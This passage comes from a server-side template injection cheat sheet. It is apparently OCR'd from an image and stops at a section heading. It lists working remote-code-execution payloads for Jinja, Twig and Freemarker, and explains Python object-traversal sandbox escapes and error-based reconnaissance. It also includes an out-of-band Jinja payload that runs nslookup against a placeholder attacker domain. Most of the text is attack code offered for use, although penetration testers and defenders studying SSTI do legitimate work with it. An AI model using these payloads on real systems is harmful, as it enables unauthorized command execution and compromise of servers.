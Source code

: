 ```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[40]('sleep 5', shell=True) }}
```

**Twig (PHP)**

* Try filter registration / assert:

```twig
{{ _self.env.registerUndefinedFilterCallback('assert')|assert('phpinfo()') }}
```

**Freemarker (Java)**

* Execute system command:

```ftl
${"freemarker.template.utility.Execute"?new()("id")}
```

---

## 8) Sandbox escape & object traversal

* Use `__class__`, `__mro__`, `__subclasses__()` (Python) to find exploitable class implementing `Popen` or `os.system`.
* Traverse chains: `().__class__.__mro__` → find subclass list → pick index to execute.

**Important:** index numbers vary. Use info‑disclosure errors to find correct index.

---

## 9) Blind / OOB verification (recommended for noisy/blocked targets)

* Use time delays to detect execution when output is not returned: `sleep 5`.
* Use DNS OOB (interactsh / Burp Collaborator) to detect external resolution: call `nslookup attacker.oob.domain` or use a command that triggers an outbound DNS resolution.

**OOB PoC concept (Jinja example):**

```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[132]('nslookup YOUR_INTERACT_DOMAIN', shell=True) }}
```

Replace `YOUR_INTERACT_DOMAIN` with your interactsh/BurpCollab.

---

## 10) Error‑based reconnaissance

* Force errors to leak internal class names and indices: call non‑existing attributes or raise exceptions intentionally.
* Example: `{{ config.nonexistent }}` may reveal tracebacks containing useful details.

---

## 11) Polyglot & chaining techniques
